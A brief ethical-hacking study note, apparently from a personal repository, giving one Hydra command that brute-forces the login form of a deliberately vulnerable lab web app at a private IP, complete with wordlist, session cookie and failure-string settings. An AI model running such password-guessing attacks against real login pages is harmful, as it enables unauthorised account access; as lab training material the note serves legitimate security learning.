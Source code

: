 # EH-Notes

## Brute Force
### Hydra
#### HTTP Attacks

`hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://192.168.57.132/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=nmsv6agfptj92d452si2psclc2; security=low:F=Username and/or password incorrect'`
